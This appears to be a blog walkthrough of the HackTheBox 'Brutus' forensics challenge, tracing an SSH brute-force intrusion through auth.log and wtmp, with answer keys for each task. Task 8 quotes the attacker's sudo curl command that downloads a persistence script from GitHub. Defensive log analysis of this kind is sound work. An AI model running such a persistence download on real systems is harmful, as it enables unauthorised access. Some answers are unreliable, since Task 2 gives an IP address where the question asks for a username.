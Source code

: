 ```yaml
---
title: 'Sherlocks Brutus'
publishedAt: '2024-04-14'
summary: 'HackTheBox Sherlocks Challenge Brutus Solution easily explained.'
slug: 'sherlocks-brutus'
featured: 'true'
tag: 'htb,technical'
---
```


<img src="/assets/htb/sherlocks-brutus/asset0.png" alt="Sherlocks Brutus"/>

# Sherlock Scenario
HackTheBox - [Sherlocks Brutus](https://app.hackthebox.com/sherlocks/Brutus)

In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

> Unzip  Brutus.zip
<CodeBlock title="Terminal">
```bash
7z x Brutus.zip
```
</CodeBlock>

## Task 1
***Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?***

**1. Open `auth.log` file using ur editor.**

<CodeBlock title="Terminal">
```bash
nvim auth.log
```
</CodeBlock>

**2. Upon reviewing the `auth.log` traffic, we can identify ***2 IPs***.**

*203.101.190.9*
<img src="/assets/htb/sherlocks-brutus/asset1.png" alt="Sherlocks Brutus"/>

*65.2.161.68*
<img src="/assets/htb/sherlocks-brutus/asset2.png" alt="Sherlocks Brutus"/>

**3. Notice that first IP `203.101.190.9` login single time unlike second IP `65.2.161.68`.**
**4. Another thing , Notice that `65.2.161.68` able to login after so many *failed attempts*. Indicates that suspect is trying to brute force into.**

<img src="/assets/htb/sherlocks-brutus/asset3.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 1st Task --> ANS: 65.2.161.68

***

## Task 2
***The brute force attempts were successful, and the attacker gained access to an account on the server.
What is the username of this account?***

**1. Notice that, suspect did a brute force attack and was successful for user `root`.**

<img src="/assets/htb/sherlocks-brutus/asset4.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 2nd Task --> ANS: 65.2.161.68

***

## Task 3
***Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?***

**1. Make use of `grep` to filter `auth.log.`**
<CodeBlock title="Terminal">
```bash
cat auth.log | grep "session opened" | grep "root"
```
</CodeBlock>

<img src="/assets/htb/sherlocks-brutus/asset5.png" alt="Sherlocks Brutus"/>

**2. Check first Accepted password by `65.2.161.68`.**
<img src="/assets/htb/sherlocks-brutus/asset6.png" alt="Sherlocks Brutus"/>

>[!NOTE]
> Note that , as its first instance , it means its the result of brute force attack. Suspect yet did'nt logged in manually.

We need to find second instance.
<img src="/assets/htb/sherlocks-brutus/asset7.png" alt="Sherlocks Brutus"/>

**3. Cross check result of cat and second instance.**

Times came out to be - `Mar  6 06:32:44`
However, the 06:32:44 is the times for the attempt for successfull login.
So the answer should be `06:32:45`

>[!RESULT]
> 3rd Task --> ANS: 2024-03-06 06:32:45

***

## Task 4
***SSH login sessions are tracked and assigned a session number upon login.
What is the session number assigned to the attacker's session for the user account from Question 2?***

**1. Check logs around `Mar 6 06:32:44`.**

We will find session number there i.e. 37.
<img src="/assets/htb/sherlocks-brutus/asset8.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 4rd Task --> ANS: 37

***

## Task 5
***The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges.
What is the name of this account?***

**1. Make use of `grep` to find out new user and its logs.**
<CodeBlock title="Terminal">
```bash
cat auth.log | grep "groupadd"
```
</CodeBlock>

As we can see new user `cyberjunkie` was added to group `gshadow`.
<img src="/assets/htb/sherlocks-brutus/asset9.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 5rd Task --> ANS: cyberjunkie

***

## Task 6
***What is the MITRE ATT&CK sub-technique ID used for persistence?***

**1. We can find it on official site .**

i.e. - [Mitre official site](https://attack.mitre.org/tactics/TA0003)

>[!RESULT]
> 6th Task --> ANS: T1136.001

***

## Task 7
***How long did the attacker's first SSH session last based on the previously confirmed authentication time
and session ending within the auth.log? (seconds)***

**1. Make use of `last` command.**

<CodeBlock title="Terminal">
```bash
last -f wtmp
```
</CodeBlock>

We can see time interval `12:02 - 12:07`
<img src="/assets/htb/sherlocks-brutus/asset10.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 7th Task --> ANS: 279 sec

***

## Task 8
***The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?***

**1. Make use of `cat` and `grep`**

<CodeBlock title="Terminal">
```bash
cat auth.log | grep "COMMAND"
```
</CodeBlock>

We can see that suspect has downloaded and ran the script.
<img src="/assets/htb/sherlocks-brutus/asset11.png" alt="Sherlocks Brutus"/>

>[!RESULT]
> 8th Task --> ANS: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

## References

- [https://app.hackthebox.com/sherlocks/Brutus](https://app.hackthebox.com/sherlocks/Brutus)

- [https://attack.mitre.org/tactics/TA0003](https://attack.mitre.org/tactics/TA0003)
